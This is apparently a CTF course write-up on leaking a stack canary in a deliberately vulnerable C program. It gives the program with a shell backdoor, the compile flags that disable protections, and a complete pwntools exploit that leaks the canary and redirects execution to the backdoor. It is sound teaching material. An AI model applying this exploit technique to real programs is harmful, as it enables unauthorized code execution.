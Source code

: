 ```yaml
---
title: Simple Buffer Overflow - 0x05(Leak Canary)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple Buffer Overflow - 0x05(Leak Canary)
###### tags: `CTF` `PWN` `eductf`

## Canary Background
![](https://imgur.com/onxC8Aq.png)

## Original Code
```clike!
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char name[0x10];
    char phone[0x10];

    printf("What's your name: ");
    read(0, name, 0x100);
    printf("Hello, %s !", name);

    printf("What's your phone number: ");
    read(0, phone, 0x100);

    return 0;
}
```

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof2_leak_canary bof2_leak_canary.c -zexecstack -no-pie -z norelro
    ```
    ![](https://imgur.com/u5iueTC.png)
    
## Exploit
* First, we can use `objdump -d -M Intel {filename}` to check the address of backdoor → `0x4011b6`
![](https://imgur.com/d30qIvL.png)
* However, we observe the backdoor function, it just call `system` instead of `execsv`. So, that you may encounter some error because of non-alignment. The solution is skip the `push %rbp` instruction and just jump to <font color="FF0000">`0x4011bb`</font>
    * The detailed description can refer to [lecture video](https://youtu.be/ktoVQB99Gj4?t=3058)
* Then we can construct a part of the payload below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    ```
* Then we have to overlap `name` variable and `phone` variable with length `0x20`. In addition, the compiler will align 8 bytes, we should overlap it as well. Moreover, the last byte of `canary` is always `0x00`, then if we'd like to print out `canary` value, we should overlap it as well.(In pwntools, `recvuntil` function default consider `0x00` is a new line)
    ```python!
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    ```

* Final step, we do what we done before to overlap padding + `phone` variable`(0x18)` + original canary`(0x08)` + original `$rbp``(0x08)` + overlap `$rip` to backdoor.
    ```python!
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```

* The whole payload is shown as below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```
* Then we got shell
![](https://imgur.com/9EGkDS0.png)

## Analysis
* About how to print canary:
Use `gdb` and execute to the first `print`, you can see that the stack structure.
![](https://imgur.com/usVpBMk.png)
![](https://imgur.com/6UDd5Po.png)
And we can print canary value from payload program → <font color="FF0000">`0xdf38469d4e106500`</font>
![](https://imgur.com/4tpr5M7.png)
    * Note that we can get `tls` address and `+0x28` to compare with canary value
    ![](https://imgur.com/gOMyuAq.png)


## Reference
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4)